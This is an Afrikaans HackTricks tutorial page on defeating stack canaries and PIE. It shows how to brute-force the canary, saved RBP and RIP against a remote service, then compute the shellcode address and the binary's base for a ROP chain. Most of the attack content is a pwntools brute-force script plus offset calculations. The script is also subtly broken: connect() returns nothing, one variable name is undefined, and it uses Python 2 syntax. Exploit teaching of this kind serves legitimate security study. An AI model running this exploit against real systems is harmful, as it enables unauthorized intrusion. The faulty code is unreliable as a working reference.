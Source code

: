 # BF Adres in die Stok

{% hint style="success" %}
Leer & oefen AWS Hack:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hack: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kontroleer die [**inskrywingsplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
{% endhint %}

**As jy te make het met 'n binêre lêer wat beskerm word deur 'n kanarie en PIE (Position Independent Executable) moet jy waarskynlik 'n manier vind om dit te omseil.**

![](<../../../.gitbook/assets/image (865).png>)

{% hint style="info" %}
Let daarop dat **`checksec`** dalk nie vind dat 'n binêre lêer beskerm word deur 'n kanarie as dit staties saamgestel is en nie in staat is om die funksie te identifiseer nie.\
Jy kan dit egter handmatig opmerk as jy vind dat 'n waarde aan die begin van 'n funksieoproep in die stok gestoor word en hierdie waarde voor die uittrede nagegaan word.
{% endhint %}

## Brute-Force Adres

Om die **PIE te omseil** moet jy **'n paar adresse lek**. En as die binêre lêer nie enige adresse lek nie, is die beste om dit te doen om die **RBP en RIP wat in die stok gestoor is in die kwesbare funksie te brute-force**.\
Byvoorbeeld, as 'n binêre lêer beskerm word deur beide 'n **kanarie** en **PIE**, kan jy begin met die brute-force van die kanarie, dan sal die **volgende** 8 Bytes (x64) die gestoorde **RBP** wees en die **volgende** 8 Bytes sal die gestoorde **RIP** wees.

{% hint style="success" %}
Dit word veronderstel dat die terugkeeradres binne die stok behoort aan die hoof binêre kode, wat, as die kwesbaarheid in die binêre kode geleë is, gewoonlik die geval sal wees.
{% endhint %}

Om die RBP en die RIP van die binêre lêer te brute-force kan jy uitvind dat 'n geldige gerate byte korrek is as die program iets uitvoer of net nie afknap nie. Dieselfde funksie as die een wat voorsien is vir die brute-force van die kanarie kan gebruik word om die RBP en die RIP te brute-force:
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

# CANARY BF HERE
canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary

# PIE BF FROM HERE
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
Die laaste ding wat jy nodig het om die PIE te verslaan, is om **nuttige adresse van die uitgelekte** adresse te bereken: die **RBP** en die **RIP**.

Vanaf die **RBP** kan jy bereken **waar jy jou shell in die stok skryf**. Dit kan baie nuttig wees om te weet waar jy die string _"/bin/sh\x00"_ binne die stok gaan skryf. Om die afstand tussen die uitgelekte RBP en jou shell-kode te bereken, kan jy net 'n **afbreekpunt plaas na die uitlek van die RBP** en kyk **waar jou shell-kode geleë is**, dan kan jy die afstand tussen die shell-kode en die RBP bereken:
```python
INI_SHELLCODE = RBP - 1152
```
Van die **RIP** kan jy die **basisadres van die PIE-binêre lêer** bereken wat jy nodig gaan hê om 'n **geldige ROP-ketting** te skep.\
Om die basisadres te bereken, doen net `objdump -d vunbinary` en kyk na die ontleed van die nuutste adresse:

![](<../../../.gitbook/assets/image (479).png>)

In daardie voorbeeld kan jy sien dat slegs **1 Byte en 'n half nodig is** om al die kode te vind, dan sal die basisadres in hierdie situasie die **uitgelekte RIP wees, maar eindig op "000"**. Byvoorbeeld as jy `0x562002970ecf` uitgelek het, is die basisadres `0x562002970000`
```python
elf.address = RIP - (RIP & 0xfff)
```
## Verbeterings

Volgens [**'n waarneming van hierdie pos**](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/NOTES.md#extended-brute-force-leaking), is dit moontlik dat wanneer RBP- en RIP-waardes lek, die bediener nie sal vasloop met waardes wat nie die korrekte is nie en die BF-skrip sal dink hy het die goeie een gekry. Dit is omdat dit moontlik is dat **sekere adresse dit net nie sal breek selfs al is dit nie presies die regte nie**.

Volgens daardie blogpos word dit aanbeveel om 'n kort vertraging tussen versoeke aan die bediener in te voer.

{% hint style="success" %}
Leer & oefen AWS-hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP-hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kontroleer die [**inskrywingsplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
{% endhint %}
